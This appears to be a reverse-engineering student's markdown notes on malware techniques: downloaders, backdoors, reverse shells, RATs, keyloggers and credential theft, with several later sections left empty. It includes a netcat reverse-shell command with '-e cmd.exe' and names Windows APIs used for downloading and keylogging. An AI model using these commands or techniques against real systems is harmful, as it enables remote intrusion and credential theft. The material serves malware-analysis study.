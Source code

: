 # Malware Techniques

> Content credited to: [https://securedorg.github.io/RE101/section2.1/](https://securedorg.github.io/RE101/section2.1/)

## Downloaders and Launchers {#downloaders-and-launchers}

Downloaders download malware + execute on system.

* commonly use Win API:

```
URLDownloadToFileA
WinExec
```

Launcher \(loader\) any executable that installs malware for immediate or future covert execution.

often contain malware designed to load.

## Backdoors {#backdoors}

provides attacker with remote access

communicate commonly over HTTP port 80 \(best way to blend in to network traffic\)

Common set of functionality:

* manipulate registry keys
* enumerate display windows
* create directories
* search files

### Reverse Shell {#reverse-shell}

connection originating from victim machine, providing access to the victim machine’s shell.

Netcat is a common tool in use as a reverse shell

Listening on incoming connections:

```
nc -l -p 80
```

`-l`-&gt; listen  
`-p`-&gt; port

Attacker connects via:

```
nc [victim-ip] 80 -e cmd.exe
```

`-e`-&gt; execute once connection established

#### Windows Reverse Shells {#windows-reverse-shells}

Two coding implementations using`cmd.exe`:

* basic -
  &gt;
   easier to write, works as well as +threaded
  * Socket is created and connection to remote is created.
  * Socket is tied to std streams \(input, output, err\)
  * Windows suppressed from victim
* multithreaded
  * Socket is created, two pipes, two threads.
  * `CreatePipe`
    ties together read/write ends to a pipe \(stdin, stdout\).
  * `CreateProcess`
    ties the standard streams to pipes instead of directly to sockets.
  * Two threads spawned \(I/O\)

### Remote Administration Tool \(RAT\) {#remote-administration-tool-rat}

remotely manage a computer\(s\)

often used in targeted attacks, moving laterally across network.

## Compression

## Obfuscation

## Persistence

## Privilege Escalation

## Defense Evasion

## Credential Stealers

3 types of malware:

1. Programs wait for a user to log in to steal creds
2. Programs that dump info \(such as pass hashes\)
3. Programs that log keystrokes

### GINA interception {#gina-interception}

Windows XP:`Graphical Identification and Authentication (GINA)`interception is a technique that malware uses to steal creds.

GINA is implemented in a DLL,`msgina.dll`, and is loaded by Winlogon exec during login.

### Hash Dumping {#hash-dumping}

Attackers try to grab hashes in order to crack them offline or use them in pass-the-hash attack, using LM and NTLM hashes to auth, without needing to decrypt or crack the hash.

`pwdump`and`pass-the-hash toolkit`are freely available packages.

### Keystroke Logging {#keystroke-logging}

malware records keystrokes so attacker can observed typed data

#### Kernel-based keyloggers {#kernel-based-keyloggers}

Difficult to detect with user-mode apps.

Usually part of a rootkit and can act as keyboard drivers to capture keystrokes, bypassing user-space programs

#### User-space keyloggers {#user-space-keyloggers}

typically use Win API

usually implemented with either hooking/polling.

Hooking -&gt; uses Win API to notify the malware each time a key is pressed \(typically`SetWindowsHookEx`\)

Polling -. uses Win API to constantly poll the state of the keys, typically via`GetAsyncKeyState`and`GetForegroundWindow`

Keyloggers can be identified in Strings listings that may show up as`[Up][Num Lock][Down][Right][UP][Left][PageDown]`

## Reconnaissance

## Lateral Movement

## Execution

## Collection

## Exfiltration

## Command and Control



